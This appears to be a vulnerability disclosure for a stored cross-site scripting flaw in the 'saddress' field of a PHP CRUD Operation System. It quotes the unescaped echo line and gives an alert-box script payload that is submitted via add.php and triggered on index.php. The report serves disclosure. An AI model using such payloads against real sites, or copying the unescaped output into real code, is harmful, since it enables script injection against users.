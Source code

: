 # Crud Operation System has Based Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/crud-operation-system-in-php-with-source-code/
## Vulnerability file
index.php and saddress parameter.

## describe
There are unrestricted cross site scripting attacks and injection attacks in the Crud Operation System. The controllable parameters are as follows: saddress. This function will execute the saddress parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**

Querying data from the database and storing it in the $row [] array, and the echo $row ['saddress'] is not filtered, resulting in the execution of XSS statements.

```
                <td><?php echo $row['saddress']; ?></td>
```

![image-20241124165455744](https://github.com/user-attachments/assets/dba3869e-12ef-4953-82f1-630e27657e9f)

## POC

asset add.php

```
http://localhost/crud/add.php
```

insert saddress parameter into database.

```
"/><script>alert(111);</script>
```

![image-20241124170005628](https://github.com/user-attachments/assets/18b4c57d-bd50-4786-bc60-6710b2acf8bd)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost/crud/index.php
```

**Result**

![image-20241124170033260](https://github.com/user-attachments/assets/3f0e5228-9015-44d4-b185-e4dfffe99fde)

 